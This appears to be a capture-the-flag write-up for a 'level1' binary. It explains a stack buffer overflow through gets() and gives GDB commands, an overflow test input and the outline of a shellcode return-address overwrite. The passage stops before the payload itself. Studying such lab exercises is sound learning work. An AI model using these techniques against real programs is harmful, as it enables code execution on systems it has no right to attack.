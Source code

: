 ## LEVEL1 - EXPLANATION & SOLUTION

Vulnerability: Buffer Overflow

The binary uses the unsafe gets function to read input into a buffer of size 76 bytes. Since gets does not check input length, providing input larger than 76 bytes causes a buffer overflow, allowing us to overwrite the return address and execute arbitrary code.

1. Analyze the binary with GDB:

	```bash
	gdb ./level1
	```

	- List functions:
	```bash
	i functions
	```

	- Examine the stack:
	```bash
	i stack
	```

	- Disassemble main:
	```bash
	disas main
	```
	- Set a breakpoint at main:
	```bash
	b main
	```
	- Dump the stack contents for further inspection:
	```bash
	x/50x $esp
	```

	- Add a breakpoint on the leave instruction and check the return adress value with $ebp + 4
	```bash
	b *<address_of_leave>
	x/x $ebp + 4
	```

2. Testing the Buffer Overflow:

	- To verify the buffer overflow, run the program with 76 bytes of input:
	```
	run <<< $(python -c 'print("A" * 76)')
	```

3. Craft the exploit:

	Overwrite the return address with the address of shellcode or a NOP sled leading to it.

	Use Python to generate the payload:
